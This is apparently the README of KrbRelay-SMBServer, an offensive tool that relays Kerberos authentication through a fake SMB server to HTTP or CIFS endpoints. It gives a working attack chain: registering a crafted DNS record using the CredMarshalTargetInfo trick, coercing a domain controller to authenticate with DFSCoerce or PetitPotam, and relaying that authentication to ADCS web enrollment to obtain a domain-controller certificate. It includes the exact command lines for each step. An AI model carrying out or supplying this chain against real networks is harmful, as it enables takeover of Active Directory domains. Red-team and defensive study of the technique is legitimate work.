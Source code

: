 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server as *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA* mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
For detailed usage and command line switches refer to original krbrelay tool
````

<img width="848" alt="Screenshot 2024-10-07 113416" src="https://github.com/user-attachments/assets/5a91b65b-6f87-4f4f-935d-8283f587cd81">

<img width="908" alt="Screenshot 2024-10-07 113227" src="https://github.com/user-attachments/assets/4b3a0be1-7fa7-4de6-aa5a-d645151483af">
